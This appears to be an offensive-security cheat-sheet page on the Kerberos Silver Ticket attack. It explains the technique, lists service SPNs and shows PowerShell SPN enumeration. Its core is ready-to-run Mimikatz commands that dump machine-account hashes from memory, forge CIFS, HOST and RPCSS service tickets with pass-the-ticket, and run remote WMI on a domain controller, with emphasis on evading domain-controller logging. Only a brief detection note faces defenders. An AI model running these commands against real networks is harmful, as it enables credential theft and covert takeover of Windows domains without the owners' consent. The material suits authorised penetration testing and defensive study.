

> [!abstract] Silver Ticket Attack
> A Silver Ticket is a forged Ticket Granting Service (TGS) ticket, also known as a service ticket. It is used to access a specific service. This attack is highly preferred because it is **silent**; since the attacker forges the TGS ticket directly, they never communicate with the KDC (Domain Controller), avoiding standard detection logs (like Event ID 4768 or 4769).
> **MITRE ATT&CK Mapping:** [T1558.002 - Steal or Forge Kerberos Tickets: Silver Ticket](https://attack.mitre.org/techniques/T1558/002/)

## Kerberos Flow & Attack Bypass

> [!info] Understanding the Bypass
> A Silver Ticket requires the NTLM hash of the target **Service Account** (or the Computer Account `$MACHINE.ACC` for services like CIFS/HOST). Because the attacker already has the key to decrypt/encrypt the service ticket, they can forge the TGS locally and send it directly to the Application Server, completely bypassing the KDC.



---

## SPN Reference Table

> [!tip] Common Service Principal Names (SPNs)
> Kerberos uses SPNs to uniquely identify each instance of a Windows service. You must specify the correct SPN when forging a Silver Ticket.
> 
> | SPN | Service / Use Case |
> | :--- | :--- |
> | `cifs` | SMB / File Shares |
> | `host` | Remote Services / WMI / Task Scheduler |
> | `rpcss` | RPC / WMI |
> | `http` | Web Services / WinRM |
> | `wsman` | Windows Remote Management (WinRM) |
> | `termsrv` | Remote Desktop Protocol (RDP) |
> | `mssqlsvc` | Microsoft SQL Server |
> | `ldap` | Active Directory LDAP |
> | `smtpsrv` | SMTP |

---

## Enumeration

> [!example]+ Finding Target SPNs
> Use native PowerShell ADSI searchers to find computers and their associated SPNs.
> 
> ```powershell
> # Find all computers with SPNs
> $filter='(&(objectCategory=computer)(servicePrincipalName=*))'
> $search=[adsisearcher]$filter
> $search.PageSize=1000
> $search.FindAll().properties
> 
> # Find SPNs for a specific hostname
> ([adsisearcher]"(&(objectCategory=computer)(name=<hostname>))").findall.properties
> ```

---

## Execution: Mimikatz

> [!warning] Prerequisites
> To forge a Silver Ticket, you need:
> 1. **Domain SID**
> 2. **Target SPN** (e.g., `cifs`, `host`)
> 3. **Target Hostname** (e.g., `dc-primary.adolf.local`)
> 4. **Service NTLM Hash** (For computer services like CIFS/HOST, this is the `$MACHINE.ACC` hash, not a user hash).

> [!danger]+ Attack: CIFS (SMB Access)
> Forging a ticket to access file shares (C$) on a target machine.
> 
> ```cmd
> :: 1. Extract the Machine Account NTLM hash ($MACHINE.ACC) from local machine
> mimikatz # privilege::debug
> mimikatz # token::elevate
> mimikatz # lsadump::secrets
> 
> :: 2. Get Domain SID (from lsadump::trust or wmi)
> mimikatz # lsadump::trust
> :: OR via PowerShell: gwmi win32_useraccount
> 
> :: 3. Forge the Silver Ticket for CIFS
> mimikatz # kerberos::golden /user:administrator /domain:sindadsec.local /sid:<domainSID> /ptt /rc4:<$MACHINE.ACC_NTLM> /target:hostname.adolf.local /service:cifs
> ```
> ![[Pasted image 20241220193000.png]]
> 
> *Note: `/rc4:ntlm` in a Silver Ticket for services like CIFS uses the target computer's machine account hash (`hostname$`), NOT a standard user's NTLM hash.*

> [!bug]+ Attack: HOST & RPCSS (WMI Execution)
> To execute WMI queries or remote commands, you often need to forge **two** Silver Tickets: one for `HOST` and one for `RPCSS`.
> 
> ```powershell
> # 1. Get Domain SID via PowerShell
> PS > gwmi win32_useraccount
> ```
> ```cmd
> :: 2. Forge Silver Ticket for HOST service
> mimikatz # kerberos::golden /user:administrator /domain:adolf.local /sid:S-1-5-21-183828 /id:500 /service:HOST /target:computername.adolf.local /rc4:<ntlmhash> /startoffset:0 /endin:600 /renewmax:10080 /ptt
> 
> :: 3. Forge Silver Ticket for RPCSS service
> mimikatz # kerberos::golden /user:administrator /domain:adolf.local /sid:S-1-5-21-183828 /id:500 /service:RPCSS /target:computername.adolf.local /rc4:<ntlmhash> /startoffset:0 /endin:600 /renewmax:10080 /ptt
> ```
> ```powershell
> # 4. Execute WMI query on the target
> PS > gwmi win32_operatingsystem -computername dc-primary
> ```

> [!info] OPSEC & Detection
> - **Stealth:** Silver Tickets are extremely stealthy because they do not generate logs on the Domain Controller (no AS-REQ/AS-REP or TGS-REQ/TGS-REP traffic).
> - **Detection:** The primary detection method is on the Application Server itself. Defenders look for service tickets being used where the encryption type is RC4 (downgrade) or where the ticket's user privileges do not match standard authentication patterns (e.g., Event ID 4624 Type 3 Network Logons accompanied by service-specific events without prior DC communication).

